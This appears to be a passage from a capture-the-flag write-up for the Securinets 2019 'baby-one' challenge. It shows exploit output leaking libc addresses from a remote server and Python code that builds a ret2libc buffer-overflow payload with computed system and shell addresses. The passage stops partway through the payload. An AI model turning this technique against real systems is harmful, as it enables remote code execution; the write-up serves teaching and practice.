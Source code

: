 Now we can end the script and get the leaked addresses.

```text
w3ndige@main ~/D/c/s/baby-one> python2 exploit.py
[*] '/home/w3ndige/Development/ctf-solutions/securinets-quals-2019/baby-one/baby1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 51.254.114.246 on port 1111: Done
[!] Write lib address libc: 0x7f7d8e14a2b0
[!] Write lib address libc: 0x7f7d8e14a250
```

Great, we have both addresses leaked. Now we can identify the used `libc` with [this](https://libc.blukat.me/) service. 

![Ghidra View](/img/securinets-prequals/libc-found-offsets.png){:class="img-responsive center-block"}

Both of these versions have the same offsets. Let's use them to prepare the final part of the exploit. 

```python
# Our libc is in version libc6_2.23-0ubuntu10_amd64 

write_offset    = 0x0f72b0 
libc_base       = libc_write - write_offset

system_offset   = 0x045390
system_address  = libc_base + system_offset

sh_address      = libc_base + 0x18cd57 

pop_rdi         = 0x00000000004006c3

# Uncomment for debugging
#pid = util.proc.pidof('baby1')[0]
#print("[*] PID = " + str(pid))
#util.proc.wait_for_debugger(pid)

exploit = "A" * 56

exploit += p64(pop_rdi)
```